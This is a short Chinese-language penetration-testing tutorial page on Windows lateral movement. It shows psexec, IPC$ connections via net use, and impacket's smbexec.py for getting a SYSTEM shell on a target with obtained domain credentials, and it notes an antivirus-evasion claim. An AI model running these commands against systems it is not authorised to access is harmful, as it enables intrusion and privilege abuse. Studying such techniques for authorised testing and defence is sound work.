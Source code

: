 ```yaml
---
sort: 5
---
```


# 1. psexec 与 smbexec

## 1.1 PsTools 中的 psexec

### 1.1.1 psexec 直接连接服务器

- 通过提供用户名和密码就能远程连接到目标服务器
- 用户一般是**域中的管理员用户,** 通常情况下只有被添加到本地管理员组的域用户或者本地 SID 为 500 的 Administrator 用户才有连接权限.
- 获取到用户名密码后, 可使用如下命令连接:

```
psexec.exe \\ip -u <域名>\<用户名> -p <密码> <命令>
```

其中, 在命令参数前可添加如下参数:

```
-s 以system身份执行命令
-d 以非交互形式执行命令
-i 以交互形式执行命令
```

- 机器在第一次使用 psexec 的时候，会弹出确认提示框，为避免这个麻烦，可以加一个参数：

```
psexec.exe -accepteula \\ip -u 账号 -p 密码 cmd
```

### 1.1.2 IPC 连接

- psexec 是使用 windows 共享来完成的连接, 也就是 IPC, 那么我们也可以先建立 IPC 连接, 再使用 psecex:

建立 IPC 连接

```
net use \\ip /u:<域名>\<用户名> <密码>
```

- 此时连接便不再需要账号与密码

## 1.2 smbexec

- smbexec 是基于 psexec 的另一款远程管理工具, 属于 impacket 工具套件. smbexec 依赖 445 端口, 且目标必须开放文件共享, 例如`c$`, `admin$`

### 1.2.1 smbexec 使用账号密码获取 shell

kali 自带 impacket, 执行如下命令, 若执行成功则会获取 system 权限的 shell(能绕火绒)

```
smbexec.py <domain>/<username>:<password>@192.168.247.146
```
